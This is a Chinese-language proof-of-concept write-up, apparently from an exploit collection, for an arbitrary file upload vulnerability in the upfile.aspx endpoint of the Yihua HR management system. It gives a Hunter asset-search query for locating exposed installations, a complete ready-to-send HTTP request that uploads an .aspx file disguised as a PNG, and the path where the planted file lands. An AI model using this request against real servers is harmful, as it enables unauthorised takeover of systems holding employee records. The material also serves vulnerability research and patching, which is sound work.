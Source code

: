 # 亿华人力资源管理系统upfile存在任意文件上传漏洞

# 一、漏洞简介
亿华人力资源管理系统是一款全面的人力资源管理软件，旨在帮助企业实现员工档案管理规范化、薪资管理自动化、招聘管理流程化等目标。该系统涵盖了人力资源管理的各个方面，包括员工档案管理、薪资管理、招聘管理、培训管理、福利管理等。亿华人力资源管理系统upfile存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 亿华人力资源管理系统

# 三、资产测绘
+ hunter`web.body="亿华人力资源管理系统"`
+ 特征

![1700719530357-795ccebb-a7d7-426f-ad2e-6292dafa922e.png](./img/iEv2oxqoEmhNMSu_/1700719530357-795ccebb-a7d7-426f-ad2e-6292dafa922e-674856.png)

# 四、漏洞复现
```plain
POST /FileManage/upfile.aspx HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3243433393122674734542415452
Content-Length: 659
Connection: close
Cookie: ASP.NET_SessionId=2gs554ezsztrgmbwf1dffzls
Upgrade-Insecure-Requests: 1

-----------------------------3243433393122674734542415452
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUKMTEwMjM4NDkyMWRktbRwLggX8FeyROMxp865VQxNInwjdx6WjO4Wq+j8FUg=
-----------------------------3243433393122674734542415452
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

BD080F3A
-----------------------------3243433393122674734542415452
Content-Disposition: form-data; name="File"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------3243433393122674734542415452
Content-Disposition: form-data; name="UploadButton"

开始上传
-----------------------------3243433393122674734542415452--

```

![1700991001207-7dffd895-f687-4e82-bfa2-c117df04e750.png](./img/iEv2oxqoEmhNMSu_/1700991001207-7dffd895-f687-4e82-bfa2-c117df04e750-033334.png)

上传文件位置

```plain
/FilesUpload/1.aspx
```

![1700991042096-6e61ec91-f9c2-4cc4-99f1-92b53c4a8f16.png](./img/iEv2oxqoEmhNMSu_/1700991042096-6e61ec91-f9c2-4cc4-99f1-92b53c4a8f16-289517.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xnk6usd7it2uhng6>